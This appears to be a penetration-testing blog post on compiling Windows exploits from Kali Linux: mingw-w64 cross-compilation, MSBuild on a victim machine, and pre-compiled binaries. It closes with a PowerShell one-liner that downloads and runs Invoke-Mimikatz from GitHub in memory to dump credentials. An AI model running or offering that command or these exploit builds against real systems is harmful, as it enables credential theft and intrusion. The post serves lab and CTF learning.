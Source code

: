 ```yaml
---
layout: post
title: Compile Windows Programs in Kali Linux
category: Tools
tags: windows building exploit
date: 2023-04-19 20:51 +0300
---
```


There are a lot of situations, when you have to compile an exploit for a specific version of Windows, for example, to make a privilege escalation. But you have only Kali Linux and no idea how to deal with these exploits in Visual Studio Projects format.

Today we are going to learn about ways we can compile our exploits using Kali Linux and additional software.

> Funny story: I was doing some lab on HackTheBox and I had to upload a compiled version of Rubeus. I had no idea how to compile Windows programs, and I had only Kali Linux. So I’ve started to search some pre-compiled versions on the Internet. And I really found a pre-compiled base64 version of the program, which did not work for me. I’ve spent a few hours on this searching, and finally I got the “right” version of the Rubeus, which worked for me. After some amount of time I’ve realized that I could do it much easier. It was so terrible🤣.

# Table of Contents

- [Cross-compiler](#cross-compiler)
- [Virtual Machine](#virtual-machine)
- [On the victim machine](#on-the-victim-machine)
- [Find pre-compiled versions](#find-pre-compiled-versions)
  * [Kali Linux windows binaries](#kali-linux-windows-binaries)
  * [The Internet](#the-internet)
- [Conclusion](#conclusion)

# Cross-compiler

If you want to compile your exploit right on your Kali Linux machine, you can use cross-compilation tools, like `mingw-w64`. It is used to compile Windows programs on Linux.

```bash
sudo apt install mingw-w64
```

For example, you have a x86 victim machine and an exploit for it. You may want to compile an exploit written in `C` language. You can use the commands below to do that.

```bash
searchsploit -m 42341
i686-w64-mingw32-gcc 42341.c -lws2_32 -o exploit.exe
```

![Compiling with mingw-w64](/assets/tools/compile-windows-programs-in-kali-linux/mingw.png)

# Virtual Machine

It is recommended to install a VM on your side to test your exploits/theories about the target. So, you can compile the program right on that machine. But be sure to install right target’s version of the operating system.

Firstly, you have to install the iso image of the OS. You can download the right version of Windows on [Microsoft website](https://www.microsoft.com/en-gb/software-download/windows10), the [Internet Archive](https://archive.org/details/windows-10-2022-update-version-22h2) or other sites. I provided links to Windows 10 Update Version 22H2 just for example.

Then, create a VM in virtualization software you like. I used to work with VirtualBox, but now I use VMWare Workstation Player, it seems better for me.

![Creating a VM in VMWare Workstation Player](/assets/tools/compile-windows-programs-in-kali-linux/vmware.png)

If you did it well, feel free to use new VM not just to compile programs for it. You can explore the system for file system, default settings, testing your exploits, etc…

# On the victim machine

It is a very low-possible way, but why not? If the target machine has a compiler installed, then we can use it to compile projects right on the target machine.  

For example, to build [Rubeus](https://github.com/GhostPack/Rubeus), a C# project just with command line you have to use `MSBuild` binary. I’ve found its location on [StackOverFlow](https://stackoverflow.com/questions/44567280/where-is-msbuild-exe-installed-in-windows-when-installed-using-buildtools-full-e), the root of it is `C:\Program Files (x86)\Microsoft Visual Studio`. There you can find the year of installed version, then go to build tools and you’ll get it.

Copy the binary path, change your current directory to the project directory and use the binary from there.

```powershell
 "C:\Program Files (x86)\Microsoft Visual Studio\2017\BuildTools\MSBuild\15.0\Bin\MSBuild.exe"
```

![Building Rubeus with MSBuild](/assets/tools/compile-windows-programs-in-kali-linux/msbuild1.png)

![Building Rubeus with MSBuild](/assets/tools/compile-windows-programs-in-kali-linux/msbuild2.png)

Then, enjoy your program!

![Using Rubeus after MSBuild](/assets/tools/compile-windows-programs-in-kali-linux/msbuild3.png)

Also, developers machines always include some kind of IDEs with a lot of useful tools installed. So, if you have a RDP connection, then why not to use the legitimate developer tools 😀. 

# Find pre-compiled versions

## Kali Linux windows binaries

The Kali tools provides some pre-compiled Windows binaries installed with operating system. The `windows-binaries` is a package, which can be installed with `apt`.

```bash
sudo apt install windows-binaries
```

After installation, you can enter the `windows-binaries` command to get a list of pre-compiled binaries. Also, you will change your working directory to package installation directory.

![windows-binaries command output](/assets/tools/compile-windows-programs-in-kali-linux/windows-binaries.png)

## The Internet

There are a lot of pre-compiled versions of useful binaries. They can be even ported in PowerShell scripts.

For example, you can find an [Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) script. If we look at its source code, we can find Base64 strings for 64-bit and 32-bit systems.

![Invoke-Mimikatz Source code](/assets/tools/compile-windows-programs-in-kali-linux/invoke-mimikatz.png)

You can just download and use that script. But there is no guarantee it would work on your system. Here is a quick in-memory usage example from [HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#invoke-mimikatz).

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds # Dump creds from memory
```

# Conclusion

Today we explored ways to compile Windows programs. You can use these methods to use your exploits on target machines. If you know another ways to do that, feel free to write a comment.

Thank you for reading, I hope it was useful for you ❤️
